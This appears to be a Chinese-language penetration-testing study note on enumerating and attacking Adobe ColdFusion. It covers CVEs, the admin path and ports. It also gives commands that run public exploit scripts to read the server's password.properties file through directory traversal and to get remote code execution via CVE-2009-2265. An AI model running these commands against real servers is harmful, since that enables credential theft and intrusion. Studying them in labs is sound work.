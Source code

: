 >開發人員可以基於已存在的平台構建一個應用，以替代原有的從零開始寫起的複雜應用，這得益於平台的供應商已經對平台做了大量檢驗和測試，基於平台的應用可以方便快速的開發和集成，並且跨系統的工作也統一由平台做了，已經有一些平台供應商聲稱基於他們的RCP平台構建的客戶端可以在多種作業系統上運行。

>[!danger ]
>有點看不懂這是三小
# ColdFusion - 列舉與攻擊手法 
>[!本章重點]
>Adobe ColdFusion（直譯：冷聚變），是一個商用的快速應用程式開發平台，在1995年由JJ Allaire開創。ColdFusion最初是為了建立能與資料庫連接的網站而開發的。2.0版本（1996年推出）以後，它成為了一個全面的開發平台,包括一個整合式開發環境以及功能全面的手稿語言。

>[!重點]+
>ColdFusion Markup Language (`CFML`) is the proprietary programming language used in ColdFusion to develop dynamic web applications. It has a syntax similar to HTML, making it easy to learn for web developers.
## CVE列表
-  CVE-2021-21087: Arbitrary disallow of uploading JSP source code
-  CVE-2020-24453: Active Directory integration misconfiguration
-  CVE-2020-24450: Command injection vulnerability
-  CVE-2020-24449: Arbitrary file reading vulnerability
-  CVE-2019-15909: Cross-Site Scripting (XSS) Vulnerability
## ColdFusion列舉手法
- `/CFIDE/administrator` 是登入點
### 常見port位 
|Port Number|Protocol|Description|
|---|---|---|
|80|HTTP|Used for non-secure HTTP communication between the web server and web browser.|
|443|HTTPS|Used for secure HTTP communication between the web server and web browser. Encrypts the communication between the web server and web browser.|
|1935|RPC|Used for client-server communication. Remote Procedure Call (RPC) protocol allows a program to request information from another program on a different network device.|
|25|SMTP|Simple Mail Transfer Protocol (SMTP) is used for sending email messages.|
|8500|SSL|Used for server communication via Secure Socket Layer (SSL).|
|5500|Server Monitor|Used for remote administration of the ColdFusion server.|
## ColdFusion攻擊手法
>[!warning ] 小節重點
>主要用POC來打
###  ColdFusion < 9.0.1 的 Directory Traversal
```shell-session
python2 14641.py 10.129.204.230 8500 "../../../../../../../../ColdFusion8/lib/password.properties"
```
### ColdFusion 8 的 RCE
>CVE-2009-2265，POC 50057需要修改exploit內部的rhost、lhost等資訊。
```shell-session
python3 50057.py 
```
# IIS Tilde Enumeration
>[!本章重點]
>這是用於列舉IIS某些版本的檔案時可以利用的技巧。
